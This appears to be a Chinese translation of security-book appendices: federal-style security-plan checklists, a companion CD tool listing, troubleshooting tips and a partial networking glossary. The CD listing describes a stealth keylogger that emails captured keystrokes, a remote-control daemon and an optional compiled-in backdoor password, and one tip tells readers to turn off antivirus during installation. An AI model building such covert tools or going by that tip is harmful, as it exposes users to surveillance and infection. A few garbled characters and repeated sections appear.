+   - 应用软件的所有变更是否都有记录？

+   - 测试结果是否已记录？

+   - 紧急修复如何处理？

+   - 是否有禁止非法使用版权软件和共享软件的组织政策？

+   - 是否定期对用户电脑进行审计，以确保只安装了合法许可的软件副本？

+   - 使用什么产品和程序来防止软件的非法使用？

+   - 是否跟踪软件保修，以降低升级成本、费用补偿或缺陷更换的成本？

#### 数据完整性/验证控制

+   - 是否安装了病毒检测和清除软件？如果是，是否有更新病毒特征文件、自动和/或手动病毒扫描以及病毒清除和报告的程序？
- 系统是否使用对账程序—校验和、哈希总数、记录计数？请包含用于解决任何差异所采取的措施描述。
- 是否使用密码破解/检查工具？
- 应用程序是否使用完整性验证程序，以查找数据篡改、错误和遗漏的证据？
- 系统是否安装了入侵检测工具？
- 是否使用系统性能监控来实时分析系统性能日志，以查找可用性问题，包括主动攻击、系统和网络变慢及崩溃？
- 系统是否进行渗透测试？如果是，有哪些程序确保测试得到适当执行？
- 应用程序中是否使用消息认证，以确保消息发送方的身份已知，并且消息在传输过程中未被篡改？

### 文档

系统文档包括硬件和软件、政策、标准、程序以及与应用程序及其处理所依赖的支持系统的自动信息系统安全相关的批准，包括备份和应急活动，以及用户和操作员程序的描述。

+   - 列出为应用程序维护的文档（硬件/软件供应商文档、功能需求、安全计划、一般系统安全计划、应用程序手册、测试结果文档、标准操作程序、应急程序、应急计划、用户规则/程序、风险评估、认证/认可声明/文件、验证审查/现场检查）。

#### 安全意识与培训

+   - 描述应用程序的安全意识计划（海报、手册和小礼品）。


### 技术控制措施

#### 身份识别与认证

- 描述向员工和合同人员提供的应用专属及通用支持系统培训的类型和频率（研讨会、工作坊、正式课堂培训、焦点小组、基于角色的培训以及在职培训）。

- 描述用于确保员工和合同人员已获得充分培训的程序。

- 描述主要应用的认证控制机制。

- 描述用户认证方式（密码、令牌和生物识别）。

- 如果应用中使用了额外的密码系统，请提供以下信息：

- 密码长度（最小值、最大值）

- 允许的字符集

- 密码老化时限及强制执行方法

- 禁止使用的已过期密码历史代数

- 密码更改程序（过期后更改，以及忘记/丢失密码时）

- 密码泄露处理程序

- 说明密码更改的频率；描述如何强制更改密码；并说明由谁更改密码（用户、系统或系统管理员）。

- 描述访问控制机制如何支持个人问责制和审计追踪（例如，密码与分配给单个人的用户ID相关联）。

- 描述用户认证机制的自保护技术（例如，密码加密、自动生成、检查禁用密码字典、传输过程中加密密码）。

- 说明在给定用户ID或访问位置（终端或端口）上允许的无效访问尝试次数，并描述超过该限制后采取的措施。

- 描述用于验证所有系统提供的管理默认密码是否已更改的程序。

- 描述用于限制使用含嵌入式密码访问脚本的程序（例如，禁止含嵌入式密码的脚本、仅允许批处理应用使用含嵌入式密码的脚本）。

- 描述任何绕过用户认证要求的策略、单点登录技术（例如，主机到主机、认证服务器、用户到主机标识符、组用户标识符），并定义任何补偿性控制措施。

- 描述任何数字签名或电子签名的使用情况及所采用标准。讨论密钥生成、分发、存储和处置的密钥管理程序。

### 逻辑访问控制

- 讨论为授权或限制应用内用户和系统人员活动而实施的控制措施。描述旨在仅允许授权访问应用或在应用内访问、将用户限制于授权交易和功能、和/或检测未经授权活动的硬件或软件功能（例如，访问控制列表ACL）。

- 说明访问权限是如何授予的。权限是否基于工作职能授予？

- 描述应用建立访问控制列表（ACL）或注册表的能力。

- 描述如何限制应用用户访问操作系统、其他应用或在履行职责过程中不需要的其他系统资源。

- 描述用于检测授权和/或未授权用户未授权交易尝试的控制措施。描述任何防止用户在正常工作时间之外或周末访问系统或应用的限制措施。

- 说明用户不活动多长时间后系统自动清空相关显示屏幕，和/或用户不活动多长时间后系统自动断开非活动用户连接，或要求用户重新连接系统或应用之前输入唯一密码。

- 说明加密是否作为系统或应用访问控制程序的一部分，用于防止访问敏感文件。

- 描述选择使用或不使用警告横幅的理由；提供所使用的横幅示例。

#### 公共访问控制

如果公众访问主要应用，讨论用于保护应用完整性和公众对应用信心的额外安全控制措施。此类控制措施包括将公众可直接访问的信息与官方机构记录分开。其他可能包括：

- 某种形式的身份识别和认证。

- 访问控制以限制用户读取、写入、修改或删除的权限。

- 防止公众用户修改系统上信息的控制措施。

- 数字签名。

- 用于信息分发在线存储的CD-ROM。

- 将供公众访问的信息副本存储在单独的系统上。

- 限制公众访问当前数据库。

- 验证分发给公众的程序和信息无病毒。

- 审计追踪和用户保密性。

- 系统和数据可用性。

- 法律考量。

#### 审计追踪

- 审计追踪是否通过提供用户行为追踪来支持问责制？

- 审计追踪的设计和实施是否记录有助于入侵检测的适当信息？

- 审计追踪是否包含足够信息来确定发生了哪些事件以及谁（或什么）导致了这些事件？（包括：事件类型、事件发生时间、与事件关联的用户ID、用于发起事件的程序或命令。）

- 在线审计日志的访问是否严格执行？

- 审计追踪信息的保密性是否受到保护，例如，如果它记录了有关用户的个人信息？

- 审计追踪审查的频率如何？是否有指导原则？

- 在已知系统或应用软件问题、已知用户违反现有要求，或某些无法解释的系统或用户问题之后，适当的系统级或应用级管理员是否审查审计追踪？

### 通用支持系统安全计划

#### 系统标识

日期

#### 系统名称/标题

赋予系统的唯一标识符和名称。

#### 责任组织

对系统负责的组织。

#### 信息联系人

了解系统或拥有系统的人员姓名。

- 姓名
- 职务
- 地址
- 电话
- 电子邮件

#### 安全责任分配

对系统安全负责的人员姓名。

- 姓名
- 职务
- 地址
- 电话
- 电子邮件

### 系统运行状态

如果选择了多个状态，请列出系统各部分分别对应的状态：

- 运行中
- 开发中
- 正在进行重大修改

#### 一般描述/用途

- 描述系统的功能或用途，以及所处理的信息。

- 描述应用从系统输入到系统输出的处理流程。

- 列出用户组织（内部和外部），以及所提供的数据和 processing 类型。

- 列出通用支持系统支持的所有应用。描述每个应用的功能及其处理的信息。

#### 系统环境

- 提供技术系统的一般描述。包括任何引起特殊安全关切的环境或技术因素（拨号线路、开放网络等）。

- 描述使用的主要计算平台，以及主要系统组件的描述，包括硬件、软件和通信资源。

- 包括保护系统和信息的任何安全软件。

#### 系统互联/信息共享

- 列出互联系统及系统标识符（如适用）。

- 如果连接到没有涵盖在安全计划中的外部系统，请提供需要考虑的任何安全关切的简要讨论。

- 在与其他系统连接和/或共享敏感数据/信息之前获得书面授权。详细说明互联系统必须遵守的行为规则。在安全计划中包含这些规则的描述，或在本节中讨论。

- 列出为系统中数据/信息的保密性、完整性或可用性建立具体要求的任何法律法规。

#### 信息敏感性一般描述

- 概括描述系统处理的信息以及对保护措施的需求。将所处理的信息与三项基本保护要求（保密性、完整性、可用性）相关联。


完整性，以及可用性）。针对上述三类中的每一项，指出该需求对系统而言属于高、中还是低。同时需包含一份声明，说明因信息丢失、误用、未经授权访问或修改而带来的估计风险及危害程度。

#### 管理控制

##### 风险评估与管理

- 描述用于识别系统威胁和脆弱性的风险评估方法。包括审查开展的日期。如果尚没有系统风险评估，需包含一个完成评估的里程碑日期（月和年）。

##### 安全控制审查

- 列出过去三年内对系统开展的任何独立安全审查。
- 包含所执行的安全评估类型、执行审查的人员、审查目的、审查结果以及由此采取的行动等信息。

### 行为规则

- 为每个系统以书面形式制定一套行为规则。在用户获得系统访问权限之前，向其提供该行为规则。包含签名页，供用户确认收悉。
- 在行为规则中清晰界定所有有权访问系统的人员的职责和预期行为。说明不当行为或不遵守规定的后果。包含与其他系统互联的适当限制。
- 将系统行为规则作为附录附上，并在本节中引用附录编号，或将规则插入本节。

##### 生命周期中的安全规划

- 确定系统或系统部分目前所处的生命周期阶段。
- 描述在当前生命周期阶段中如何处理安全问题。

##### 启动阶段

- 引用敏感性评估，该评估在"信息处理敏感性"部分中描述。

##### 开发/采购阶段

- 在系统设计期间，是否识别了安全需求？
- 是否在采购行动之前开发了适当的安全控制措施以及相关的评估和测试程序？
- 招标文件（如建议书征集书）是否包含安全需求以及评估/测试程序？
- 需求是否允许随着新威胁/脆弱性的识别以及新技术的实施而更新安全需求？
- 如果应用是商业采购的，或应用包含商用现成组件，是否识别了安全需求并将其纳入采购规范中？

##### 实施阶段

- 在系统投入生产之前，是否进行了设计审查和系统测试？测试是否有记录？系统是否已获得认证？
- 自开发以来是否增加了安全控制措施？
- 应用是否经过技术评估，以确保其符合适用的联邦法律、法规、政策、指南和标准？
- 认证和认可的日期是什么？如果系统尚未获得授权，请注明将提出认可申请的日期。

##### 运行/维护阶段

安全计划记录此阶段所需的安全活动。

##### 处置阶段

描述信息如何转移到另一个系统、归档、废弃或*销毁*。讨论用于确保信息机密性的控制措施。

- 敏感数据是否加密？
- 信息如何从系统中清除和销毁？

#### 授权处理

- 提供授权日期、授权批准系统处理的管理官员的姓名和职务。
- 如未获授权，提供请求批准运行的管理人员的姓名和职务，并注明请求日期。

### 运行控制

#### 人员安全

- 所有岗位是否都已审查敏感性级别？
- 人员是否接受了与其所分配岗位相适应的背景调查？
- 用户访问权限是否限制在执行工作所需的最低限度？
- 是否有请求、建立、发放和关闭用户账户的流程？
- 关键职能是否分配给不同人员（职责分离）？
- 有哪些机制使用户对其行为负责？
- 友好和非友好离职程序分别是什么？

#### 物理和环境防护

讨论系统的物理防护。描述处理发生区域的物理防护措施（如：终端上的锁具、建筑物和处理区域周围的物理屏障等）。需要涵盖的因素包括：物理访问、消防安全、支持性公共设施故障、结构坍塌、管道泄漏、数据截获、移动和便携系统。

#### 生产、输入/输出控制

描述用于输入和输出信息及介质的标记、处理、加工、存储和处置的控制措施，以及信息和介质的标签和分发程序。列出用于监控软件安装和更新的控制措施。提供支持系统的程序概要。本节需报告的主题示例包括：

- 用户支持：是否有服务台或团队提供咨询？
- 防止未经授权人员阅读、复制、更改或窃取打印或电子信息的安全程序。
- 确保只有授权用户取走、接收或交付输入和输出信息和介质的程序。
- 敏感输入/输出接收的审计追踪。
- 限制访问输出产品的程序。
- 用于运输或邮寄介质或打印输出的程序和控制措施。
- 敏感性内外部标签（如《隐私法》、专有信息）。
- 带有特殊处理说明的外部标签（如：日志/库存标识符、受控访问、特殊存储说明、发布或销毁日期）。
- 库存管理的审计追踪。
- 介质存储库或档案室——物理、环境防护控制/程序。
- 电子介质重复使用前进行消毒的程序（如：覆写或消磁）。
- 损坏介质或无法有效消毒以便重复使用的介质的受控存储、处理或销毁程序。
- 硬拷贝介质不再需要时的粉碎或其他破坏性处理措施。

#### 应急规划

简要描述为确保系统在发生灾难时继续处理所有关键应用而需遵循的程序（应急预案）。如果已完成正式的应急预案，引用该预案。应急预案可作为附录附上。包含以下内容：

- 任何备份处理协议。
- 有记录的备份程序，包括频率（每日、每周、每月）和范围（完全备份、增量备份和差异备份）。
- 存储备份的位置，以及保留的备份世代数。
- 是否有经过测试的应急/灾难恢复计划？测试频率如何？
- 所有员工是否在应急响应、灾难处理和应急预案方面接受了与其角色和职责相关的培训？

#### 硬件和系统软件维护控制

这些控制措施包括：

- 对执行维护和修理活动人员的限制/控制。
- 执行紧急维修和维护的特殊程序。
- 现场和场外维护所用项目的程序（如：维护人员陪同、离站设备的消毒处理）。
- 通过电信安排进行诊断或维护时，用于控制远程维护服务的程序。
- 版本控制，确保系统组件与适当系统版本协调的适当程序。
- 在将系统组件（操作系统、其他系统、工具软件、应用软件）提升至生产环境之前进行测试和/或批准的安全程序。
- 影响分析，以确定拟议变更对现有安全控制的影响；包括与硬件/软件变更相关的技术和用户社区所需的培训。
- 变更识别、获取批准和记录流程的程序。
- 确保安全应急预案的程序，以及更新相关文件以反映系统变更的程序。
- 检查以确定数据是测试数据还是"实时"数据。
- 组织禁止使用盗版软件或共享软件的政策。

#### 完整性控制

- 是否已安装病毒检测和清除软件？如果是，是否有更新病毒特征库、自动和/或手动病毒扫描以及病毒清除和报告的程序？
- 系统是否使用对账程序——校验和、哈希总计、记录计数？包含为解决任何差异而采取的措施说明。
- 是否使用密码破解/检查工具？
- 系统是否使用完整性验证程序来检测数据篡改、错误和遗漏的证据？
- 系统上是否安装了入侵检测工具？


 - 是否使用系统性能监控来实时分析系统性能日志，以查找可用性问题，包括主动攻击、系统和网络变慢以及崩溃？
- 是否对系统执行渗透测试？如果是，有哪些程序确保测试得到适当执行？
- 是否在系统中使用消息认证来确保消息发送者是已知的，并且消息在传输过程中未被篡改？

### 文档

系统的文档包括硬件和软件的描述、政策、标准、程序以及与信息自动化安全相关的批准文件。文档还包括备份和应急活动，以及用户和操作员程序的说明。

- 列出为系统维护的文档（硬件/软件供应商文档、功能需求、安全计划、程序手册、测试结果文档、标准操作程序、应急程序、应急计划、用户规则/程序、风险评估、处理授权、验证审查/现场检查）。

### 安全意识和培训

- 描述系统的安全意识计划（海报、手册和小礼品）。
- 列出提供给员工和合同人员的一般支持系统培训的类型和频率（研讨会、工作坊、正式课堂、焦点小组、基于角色的培训和在职培训）。
- 定义确保员工和合同人员获得充分培训的程序。

### 事件响应能力

- 是否有由系统人员内部处理或外部处理的事件报告程序？
- 是否有识别和处理事件的程序，包括保留的文件和日志、联系人以及何时联系？
- 谁接收和响应警报/公告（例如，供应商补丁、被利用的漏洞）？
- 有哪些预防措施（例如，入侵检测工具、自动审计日志、渗透测试）？

### 技术控制

### 身份识别和认证

- 描述用户认证方法（密码、令牌和生物识别）。
- 如果使用密码系统，请提供以下具体信息：
  - 允许的字符集。
  - 密码长度（最小值、最大值）。
  - 密码时效时间段和执行方法。
  - 禁止使用的过期密码历史代数。
  - 密码更改程序。
  - 丢失密码的处理程序。
  - 密码泄露的处理程序。
  - 详细说明培训用户的程序并列出所涵盖的材料。
  - 说明密码更改的频率；描述密码更改如何执行（例如，由软件或系统管理员执行）；并识别谁更改密码（用户、系统或系统管理员）。
  - 描述使用的任何生物识别控制。包括生物识别控制在系统上如何实施的描述。
  - 描述此系统上使用的任何令牌控制，包括如何实施。
  - 描述访问控制机制的执行级别（网络、操作系统和应用程序）。
  - 描述访问控制机制如何支持个人责任和审计跟踪（例如，密码与分配给单个用户的用户标识符相关联）。
  - 描述用户认证机制的自保护技术（例如，密码使用单向加密传输和存储，以防止任何人（包括系统管理员）读取明文密码；密码自动生成；密码对照禁用密码字典进行检查）。
  - 说明给定用户标识符或访问位置（终端或端口）可能发生多少次无效访问尝试，并描述超过该限制时采取的措施。
  - 描述验证所有系统提供的管理默认密码已更改的程序。
  - 描述限制使用包含嵌入式密码的访问脚本的程序（例如，禁止包含嵌入式密码的脚本；仅允许批处理应用程序使用包含嵌入式密码的脚本）。
  - 描述任何绕过用户认证要求的政策、单点登录技术（例如，主机到主机、认证服务器、用户到主机标识符和组用户标识符）并列明任何补偿控制。

### 逻辑访问控制

- 讨论授权或限制用户和系统人员在系统内活动的控制。描述旨在仅允许授权访问系统或系统内部、将用户限制在授权交易和功能内、和/或检测未授权活动的硬件或软件功能（例如，ACL）。
- 解释访问权限是如何授予的。权限是否基于工作职能授予？
- 描述系统建立ACL或注册的能力。
- 描述如何限制用户访问履行职责不需要的操作系统、其他应用程序或其他系统资源。
- 描述检测授权和/或授权用户未授权交易尝试的控制。描述任何防止用户在正常工作时间之外或周末访问系统或应用程序的限制。
- 说明在用户多长时间不活动后，系统自动清空相关显示屏幕，和/或在用户多长时间不活动后，系统自动断开非活动用户或要求用户在重新连接到系统或应用程序之前输入唯一密码。
- 说明是否使用加密作为系统或应用程序访问控制程序的一部分，以防止访问敏感文件。
- 描述选择使用或不使用警告横幅的理由，并提供所用横幅的示例。

### 审计跟踪

- 审计跟踪是否通过提供用户操作痕迹来支持责任追溯？
- 审计跟踪的设计和实施是否记录了有助于入侵检测的适当信息？
- 审计跟踪是否包含足够的信息来确定发生了哪些事件以及谁（或什么）导致了这些事件？（包括：事件类型、事件发生时间、与事件关联的用户ID、用于发起事件的程序或命令。）
- 在线审计日志的访问是否严格执行？
- 审计跟踪信息的机密性是否受到保护，例如，如果它记录了关于用户的个人信息？
- 审计跟踪审查的频率如何？描述任何指导方针。
- 在已知系统或应用软件问题、已知用户违反现有要求或某些无法解释的系统或用户问题之后，适当的系统级或应用程序级管理员是否审查审计跟踪？

# 附录C

## CD内容

本书的附赠CD-ROM包含书中一些示例的交互式模拟，以及文中提到的程序、源代码和文件，分类在以下文件夹中：第1章、第2章、第3章、第4章、第5章和第7章、TigerSurf 2.0和端口列表，如图C.1所示。

### 模拟

对于那些寻求本书实践操作经验的人来说，不必再找了。所有主要主题示例都包含在交互式模拟中。你会感觉自己仿佛坐在服务器前，或直接连接到Cisco路由器的控制台，或配置特定的防火墙策略。

#### 第1章

第1章主文件夹（图C.2）包含以下子文件夹：

- **Tcp_Wrappers。** 一个tcp_wrapper存储库，带有示例*tcpd*编译。支持以下UNIX操作系统：AIX、Digital、HP-UX、IRIX、Solaris、SunOS和Linux。

- **TigerFTPServ。** 为家庭/私人Windows用户提供的FTP编译，这些用户偏好部分到完全控制。此编译使用户能够为朋友和家人提供安全的FTP访问。功能包括可用命令选项、文件和目录权限以及会话流选项。该程序还包括一个会话嗅探器，其中所有连接请求和交易状态都实时显示。TigerFTPServ可以以任何方式修改、分发和使用。

- **TigerTelnetServ。** 使家庭/私人Windows用户偏好部分到完全控制安全性的，能够为个人远程访问以及朋友和家人提供安全telnet访问。TigerTelnetServ可以以任何方式修改、分发和使用。此版本支持的命令包括目录浏览、文件查看、用户查找、用户终止和守护进程关闭；可以包含其他功能。

- **TigerTFTPServ。** 为希望对其TFTP供应有一定控制的家庭/私人Windows用户提供的程序。TigerTFTPServ基本上是

精简版 FTP，监听 69 端口以接收 TFTP 连接请求。遵循 TFTP 规范，该程序仅允许单一的连接流（最大连接数可轻松修改）到一个目录进行文件传输。代码可以修改以接受认证用户。此版本支持匿名会话；并包含一个会话嗅探器，用于监控从目录 c:\tftp 进行的每个事务。

#### 第 2 章

第 2 章文件夹（**图 C.3**）包含：

- **TigerInspect。** 为家庭/私人用户和企业用户提供自定义扫描及服务列表管理功能。此版本支持五个同时处理线程，这意味着运行时将同时扫描五个端口。线程数量可以通过添加 Winsock(x) 流来增加，其中 (x) 表示下一个线程（本例中为六）。

- **Trojan Removers。** 包含 AntiGen 和 BoDetect，这两个程序可自动检测、清理并移除计算机上的 BoServ（Back Orifice 服务器）程序。AntiGen 是 Fresh Software 的免费软件。**注意：** 虽然这些清理工具效果很好，但更新的 BoServ 变种可能会逃避检测。

- **TigerWipe。** 一个列出系统进程的程序，包括那些可能以其他方式隐藏的进程。使用方法很简单：高亮显示恶意进程，然后点击 Wipe 按钮。源代码已包含，用户可以进行修改，可能用于自动化本书中描述的任何 tiger 技术。这样使用时，它可以实现一个反木马版本，不仅终止恶意进程，还完成必要的移除步骤。此版本作为手动界面特别有效。

- **TigerGuard。** 自定义端口阻断器和监视器，TigerGuard 使用户能够创建、加载和保存自定义策略列表。在其当前编译版本中，该守护进程根据用户安全策略记录、阻断和警告远程黑客攻击（默认情况下，TigerGuard 最多接受 500 条自定义策略）。标准和默认策略列表可供预加载。

该子文件夹还包含一个配套的入侵嗅探器和一个 Gand端口会话嗅探器，用户可以使用它们秘密捕获传入的 TCP 或 UDP 入侵信息。入侵嗅探器捕获每个攻击者的所有流量；端口会话嗅探器记录来自多个攻击者的所有流量。

- **Lamer。** 远程控制守护进程列表，结合第 2 章中提到的分发技术。为了更高的安全性，隐藏服务器功能已禁用。服务器和客户端可以在同一台工作站上执行以进行测试。

**图 C.3** 第 2 章 CD 文件夹内容。

#### 第 3 章

在第 3 章 CD 文件夹（**图 C.4**）中，您将找到以下内容：

- **Java。** 一个简单的 Java 前端登录适配，易于实现。登录、ASP/VB 脚本和带密码的 CGI 可执行文件可以阻止许多仓促的攻击者。

- **TigerPass。** 一个内部登录网关程序，可以轻松转换为 CGI 前端。该程序自动查询小型数据库 login.mdb 进行访问核算和交叉核对。

- **Loader.asm。** 一个完整的古代中国秘密，个人补丁加载程序。

**图 C.4** 第 3 章文件夹组件。

#### 第 4 章

第 4 章 CD 文件夹（**图 C.5**）包含以下内容：

- **TigerLog。** 可自定义的全隐形键盘记录控制程序，适合家庭/私人用户。TigerLog 可以修改要秘密捕获的有效按键，更改可见的会话嗅探器激活键序列（当前为 Shift+F12），修改默认日志文件名称和位置（//Windows/System/TigerLog.TXT），并在日志已满时通过 SMTP 服务器（mail.mailserver.net）将日志文件内容发送到电子邮件地址（someone@mailserver.com）。

- **TigerCrypt。** 使用 128 位加密确保个人密码安全和隐私的程序。此版本支持多用户配置文件。用户可以从下拉列表中选择已注册的配置文件或创建新配置文件。在 TigerCrypt 主界面中，用户可以添加和移除加密登录账户以便轻松检索。多个登录名、密码、服务器名称和账户信息都安全存储，只有使用用户配置文件密码才能检索。加密数据也可以导出和导入到文件。

TigerCrypt 还包括一个随机密码生成器，可以快速帮助创建安全的随机密码。界面选项允许用户选择密码长度和可用字符（大/小写、数字、扩展键和符号）进行随机化。

- **Ifstatus。** 一个流行的 *NIX 程序，运行时可以识别处于调试或混杂模式的网络接口。该程序通常只有在发现接口处于不安全模式时才会产生输出。

**图 C.5** 第 4 章 CD 组件。

- **Encryptor。** 适用于企业和家庭/私人 Windows 用户的加密功能。一种密码技术提供简单的加密功能用于数据保护。源代码并不复杂，易于修改以供个人使用。要保存数据进行加密，用户从右侧通过目录列表导航到要保存加密文件的路径。然后，他们输入加密密钥并点击保存。加载加密文件很简单，只需从右侧通过目录列表导航回来并选择要加载的文件。

- **CGIScan。** 可自定义的漏洞扫描器，用于个人 CGI 扫描和手动测试 CGI 弱点。目前，有 407 个潜在的 CGI 漏洞可供测试。

#### 第 5 章和第 7 章

第 5 章和第 7 章文件夹中的 CD 组件（**图 C.6**）如下：

- **WinLock。** 可以解决工作站密码问题的锁定程序。激活后，必须解锁 WinLock 界面才能继续。该程序可以随时手动激活，例如离开办公室时。该程序可以配置为在系统启动时初始化。作为选项，可以使用源代码编译后门密码。

- **Port Watcher。** 一个简单的端口监视器，作为防火墙示例，用于本章中给出的 NT DoS 对策。

### TigerSurf 2.0

TigerSurf 是随附附录 A 文本的文件夹中提供的程序。该程序包含一个安全的多流互联网搜索引擎，基于安全的互联网浏览器模块设计，帮助保护用户免受破坏性网页、浏览器泛滥（不再有大量弹出窗口）和远程木马的危害。TigerSurf 支持所有 Microsoft Internet Explorer 插件和专有过滤器，并与所有互联网编程语言兼容。其他功能包括：

- HTML 编辑器
- TigerWatch
- TigerBlock
- 安全扫描
- TigerSearch
- TigerTrack
- FTP
- Telnet
- 屏幕捕获
- 图像查看器
- TigerChat
- TigerSniff

### 端口列表

随附 CD 还包含一个文件夹，其中包含完整的知名和厂商定义的端口服务列表，一直到端口 49151。端口号分为两个范围：

知名端口：0 到 1023

注册端口：1024 到 49151

知名端口由 IANA 分配，在大多数系统上只能由系统（或 root）进程或由特权用户执行的程序使用。端口在 TCP [RFC793] 中用于命名承载长期会话的逻辑连接的端点。为了向未知呼叫者提供服务，定义了服务联系端口。此列表指定服务器进程用作其联系端口的端口。联系端口有时称为"知名端口"。在可能的范围内，这些相同的端口分配也用于 UDP [RFC768]。IANA 管理的分配端口范围为 0–1023。


 # 故障排除

如果你在安装或使用随书光盘中的材料时遇到困难，请尝试以下解决方案：

- **使用最新的编译器。** 通过产品制造商将你的 C 和 Visual Basic 编译器升级到最新版本。

- **检查兼容的 #include 文件。** 要顺利编译代码片段，请使用 GCC，即 Red Hat 7.x 自带的编译器。最好安装所有开发工具，你会发现一些更复杂的程序需要安装额外的软件包——这些软件包可能包含额外的 #include 文件，用于告诉编译器获取另一个源文件的额外内容。对于那些苦苦寻找某些难以找到的文件的用户，我已经压缩收集了一批 #include 文件（超过 1000 个）。你可以在 www.tigertools.net/patch/incfiles.zip 获取。

- **关闭任何可能正在运行的防病毒软件。** 安装程序有时会模仿病毒活动，可能导致你的电脑错误地认为它正在被病毒感染。（记得稍后重新打开防病毒软件。）

- **关闭所有正在运行的程序。** 你运行的程序越多，其他程序可用的内存就越少。安装程序通常还会更新文件和程序；如果你保持其他程序运行，安装可能无法正常工作。

- **参考支持网站：** 如需更多支持，请访问 www.Tiger-Tools.net/support.htm。

如果你仍然遇到光盘问题，请拨打 Wiley 客户关怀电话：(800) 762-2974。美国境外请拨打 1 (317) 572-3994。你也可以通过电子邮件联系 Wiley 客户服务：techsupdum@wiley.com。Wiley Publishing, Inc. 仅提供安装和其他一般质量控制项目的技术支持；有关应用程序本身的技术支持，请咨询程序的供应商或作者。

## 词汇表

**802.3** 标准 IEEE 802.3 格式；也称为 Novell 802.2。

**10Base2** 细缆以太网，或称细网；使用 RG-58 电缆类型。使用 10Base2 时，收发器功能由网卡（NIC）处理。BNC T 型连接器将电缆连接到网卡。与每种介质类型一样，由于信号衰减，细网段的 limiting 长度少于 185 米，每段最多 30 个站点，总共 1,024 个站点。

**10BaseT** IEEE 802.3 物理层规范，用于使用非屏蔽双绞线以 10 Mbps 传输的双绞线以太网。10BaseT 是 10 Mbps、基带、双绞线电缆的命名方式。

**可接受风险（Acceptable Risk）** 管理层认为合理承担的风险，基于应对安全漏洞所实施对策的成本和规模。

**认证（Accreditation）** 授予主要应用或通用支持系统在实际环境中处理的授权和批准。认证是基于指定技术人员对系统符合预指定系统安全技术要求进行的认证而授予的。

**激活（Activation）** 计算机最初"捕获"病毒的时点，通常来自可信来源。

**地址掩码请求（ICMP 类型 17）/地址掩码应答（ICMP 类型 18）** 与信息请求/应答类似，站点可以发送类型 17 和类型 18 消息以获取其所连接网络的子网掩码。站点可以向已知节点（如网关或路由器）提交此请求，或向网络广播该请求。

**API（应用程序编程接口，Application Programming Interface）** 一种使一个站点上的应用程序能够与另一个站点上的应用程序通信的技术。

**应用代理网关（Application Proxy Gateway）** 代理防火墙的增强版本；与代理防火墙一样，对于每个应通过防火墙的应用程序，必须安装并运行软件来代理它。不同之处在于，应用网关包含集成的模块，用于检查每个请求和响应。

**ARP（地址解析协议，Address Resolution Protocol）** 向连接到物理网络的所有主机广播的数据包。该数据包包含发送方希望与之通信的节点或站点的 IP 地址。

**ARPANET** 20 世纪 60 年代横跨美国的实验性广域网，由美国国防部高级研究计划局 ARPA（后称 DARPA）组建。

**ASCII（美国信息交换标准代码，American Standard Code for Information Interchange）** 计算机用于表示所有大小写字母、数字和标点符号的数值代码的通用标准。

**非对称数字用户线路（ADSL，Asymmetric Digital Subscriber Line）** 通过已有的普通单根双绞线向家庭进行单向 T1 信号传输。ADSL 调制解调器连接双绞线铜缆。ADSL 通常配置的下行速率高于上行速率（非对称）。这些速率取决于用户与中心局（CO）的距离，可能从最高 9 Mbps 到最低 384 Kbps 不等。

**异步（Asynchronous）** 站点在受限或非受限条件下传输；受限站点可以在站点管理分配的一段时间内以完整的环带宽传输；非受限站点在所有可用带宽（减去限制）中在剩余站点之间分配。

**授权处理（Authorized Processing）** *参见* 认证。

**可用性保护（Availability Protection）** 包含系统信息、应急、灾难恢复和冗余计划的备份方案。需要可用性保护的系统和信息示例包括：分时系统；关键任务应用；时间和考勤、财务、采购或生命关键系统。

**意识、培训和教育（Awareness, Training, and Education）** 三阶段过程，包括：(1) 意识计划，通过改变组织态度来认识安全的重要性以及不实施有效安全计划的后果，为培训奠定基础；(2) 培训，教授人们能够使其更有效地执行工作的技能；(3) 教育，提供更深入的培训，针对安全专业人员以及工作需要自动化信息安全专长的那些人员。

**后门（Backdoor）** 黑客获取和保持对系统访问并掩盖其踪迹的手段和方法。

**带宽（Bandwidth）** 衡量介质一次可以处理的流量量的指标。在数字通信中，描述可以在线路上传输的数据量，以每秒比特数（bps）衡量。

**基本速率接口（BRI ISDN，Basic Rate Interface）** 由三个通道组成——一个 D 通道和两个 B 通道——用于传输流。在正常情况下，D 通道为 ISDN 接口提供信号信息。D 通道以 16 Kbps 运行，通常包含约 9.6 Kbps 的额外带宽，用于额外的数据传输。两个 B 通道以 64 Kbps 运行，主要用于承载数据、语音、音频和视频信号。

**位（Bit）** 二进制中的单一位数字（0 或 1）；计算机数据的最小单位。

**缓冲区流控制（Buffer Flow Control）** 当数据以流的形式传递时，协议软件可能会将流分割以填充特定的缓冲区大小。TCP 管理此过程以防止缓冲区溢出。在此过程中，可能会周期性地停止快速发送的站点，以便慢速接收的站点能够跟上。

**缓冲（Buffering）** 路由器等互联网设备使用此技术作为传入请求的内存存储。请求可以在缓冲区空间（内存地址空间）足够时持续进入。当此空间用完（缓冲区已满）时，路由器将开始丢弃数据包。

**字节（Byte）** 在计算机内存中表示单个字符的位数（8 位）。

**载波传输（Carrier Transmission）** 当以太网上的站点准备传输时，它必须首先监听信道上的传输。如果另一个站点正在传输，则称其"产生活动"。这种活动或传输称为载波。

**隐藏端口（Concealed Ports）** 在计算机潜在的约 65,000 个端口中，前 1,024 个称为知名端口。其余的称为


隐蔽端口，这些通常是用户不知道的端口；然而，其中一些可能已注册为厂商特定的专有端口。

### 保密性保护

一种安全流程，采用访问控制手段，如用户ID/密码、终端标识符、操作限制（例如，读取、写入、删除等）。人事档案；财务和专有信息；商业机密；新技术开发；政府机构信息；国家资源、国家安全以及行政命令或国会法案都是受保密性保护的信息示例。

### 破解者（Cracker）

非法黑客；绕过或击败网络或特定计算机系统安全措施以获取未授权访问的人。破解者的经典目标是从计算机系统中非法获取信息以非法使用计算机资源，尽管大多数破解者的主要目标仅仅是侵入系统。如今，破解者会将其计算机专业知识用于非法目的，例如未经许可访问计算机系统，并篡改这些系统上的程序和数据。此时，破解者会窃取信息、进行商业间谍活动，并安装后门、病毒和特洛伊木马。

### CRC（循环冗余校验）

一种用于检测传输错误的验证流程。发送站在传输前计算帧值。在帧接收时，接收站必须基于完整、成功的传输计算相同的值。

### CSMA/CD（带冲突检测的载波侦听多路访问）

与以太网绑定以检测冲突닳术。参与冲突的站立即中止其传输。检测到冲突的第一个站向所有站发出警报。此时，所有站执行随机冲突计时器以强制延迟，然后再尝试传输其帧。这种时延机制称为退避算法。如果检测到多次冲突，随机延迟计时器将加倍。

### 直通交换（也称快速转发）

一种交换技术，仅读取目的MAC地址并转发帧。这是最快的方法，但不能确保帧的完整性。

